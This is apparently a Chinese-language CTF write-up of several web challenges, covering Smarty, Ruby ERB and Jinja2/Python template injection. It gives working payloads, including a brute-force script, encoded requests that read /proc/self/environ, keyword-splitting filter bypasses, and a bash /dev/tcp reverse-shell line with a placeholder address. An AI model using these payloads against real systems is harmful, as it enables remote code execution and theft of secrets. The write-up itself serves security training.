


老图镇楼

## [CISCN2019 华东南赛区]Web11



- 给出了API文档，但是貌似环境出锅无法使用
- 页面右上角存在`Current IP`，且页面底部提示`Build With Smarty !`，想起做过另一道非常类似的题目，属于php的SSTI
- 测试发现`X-Forwarded-For`字段存在无过滤的`SSTI`，比较水，`hackbar`直接打

```js
X-Forwarded-For: {{system('cat /flag')}}
```

- Ctrl+U查看flag

> 记smarty的其他payload:
>
> {if readfile('/flag')}{/if}
>
> 题目原型:
>
> ```php
> <?php
> require_once('./smarty/libs/' . 'Smarty.class.php');
> $smarty = new Smarty();
> $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
> $smarty->display("string:".$ip);
> }
> ```

## [SCTF2019]Flag Shop

- 开局扫扫扫，扫到一个`robot.txt`，给出`filebak`，文件泄露

- 点开一开，`ruby`，心跳骤停

- 果断查看WP（），得知`#{params[:name][0,7]}`存在erb模板注入

- erb模板注入格式为

  > <%= 7 * 7 %>

- 可控参数`name`长度仅有7，除去`<%=%>`可控长度仅有2个字符

- Ruby中的特殊全局变量

  > $! 最近一次的错误信息
  >
  > $@ 错误产生的位置
  >
  > $_ gets最近读的字符串
  >
  > $. 解释器最近读的行数(line number)
  >
  > $& 最近一次与正则表达式匹配的字符串
  >
  > $~ 作为子表达式组的最近一次匹配
  >
  > $n 最近匹配的第n个子表达式(和$~[n]一样)
  >
  > $= 是否区别大小写的标志
  >
  > $/ 输入记录分隔符
  >
  > $\ 输出记录分隔符
  >
  > $0 Ruby脚本的文件名
  >
  > $* 命令行参数
  >
  > $$ 解释器进程ID
  >
  > $? 最近一次执行的子进程退出状态
  >
  > $`匹配文本之前的文本
  >
  > $‘匹配文本之后的文本

- 有两种解法：利用`$~`或`$’`

- Payload1:`$~`爆破secret：

  ```python
  import requests
  import base64
    
  url = "http://8efd8c29-381e-4f6e-bde0-58b9360fc804.node3.buuoj.cn"
  re = requests.session()
  re.get(url + "/api/auth")
    
  flag = "a93a4d620"
  while True:
     i = ""
     for i in "0123456789abcdef":
         now = flag + i
         #now = i + flag
         res = re.get(url + "/work?name=%3c%25%3d%24%7e%25%3e&do=%3c%25%3d%24%7e%25%3e%20is%20working&SECRET="+now)
         if now in res.text:
             print res.text
             flag = now
             print flag
             break
  print flag
  ```

- Payload2:`$’`获取`secret`

  ```html
  /work?SECRET=&name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e%20is%20working
  ```

  

  拿到`secret`，利用`jwt.io`生成cookies，拿到flag

- Payload3:`$’`结合参数类型转换，绕过长度限制直接读取`/proc/self/environ`

  > Code:
  >
  > ```ruby
  > a = "qwertyu"
  > $b = Array["bbb","cc","d"]
  > puts "$a: #{$a[0,3]}"
  > puts "$b: #{$b[0,3]}"
  > ```
  >
  > Output:
  >
  > ```
  > $a: qwe
  > $b: ["bbb", "cc", "d"]
  > ```

  由于ruby存在php类似的特性，可以在参数中通过[]传入数组，因此直接构造`name`为长度为7的数组，将payload写入name[0]，经过类型转换拼接后便绕过了限制，从而可以RCE

  直接读取`/proc/self/environ`：

  ```html
  /work?SECRET=xxx&do=%5b%22%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%70%72%6f%63%2f%73%65%6c%66%2f%65%6e%76%69%72%6f%6e%27%29%2e%72%65%61%64%20%25%3e%22%2c%20%22%31%22%2c%20%22%32%22%2c%20%22%33%22%2c%20%22%34%22%2c%20%22%35%22%2c%20%22%36%22%5d%20%69%73%20%77%6f%72%6b%69%6e%67&name[]=%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%70%72%6f%63%2f%73%65%6c%66%2f%65%6e%76%69%72%6f%6e%27%29%2e%72%65%61%64%20%25%3e&name[]=1&name[]=2&name[]=3&name[]=4&name[]=5&name[]=6
  ```

# [DASCTF]calc1&2

python SSTI弹shell

payload:

```python
getattr(''.__class__.__base__.__subclasses__()[80].__init__.__getattribute__('__glo'+'bal'+'s__')['__buil'+'tins__']['__impo'+'rt__']('o'+'s').__getattribute__('po'+'pen')('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"'), 're'+'ad')()
```

记一下跑数组的脚本：

```python
for i in range(len(''.__class__.__base__.__subclasses__())):
	print(i, ''.__class__.__base__.__subclasses__()[i].__init__)
```

常见40/64/75/80

# 校内赛welcomto_flask

绕双下划线，request

```python
{{((()|attr('_'+'_cla'+'ss'+'_'+'_')|attr('_'+'_base'+'_'+'_')|attr('_'+'_subclas'+'ses_'+'_'))()[80]|attr('_'+'_in'+'it_'+'_')|attr('_'+'_glo' + 'bals_'+'_'))['_'+'_buil'+'tins_'+'_']['ev'+'al']('_'+'_import_'+'_("os").popen("/readflag").read()')}}
```

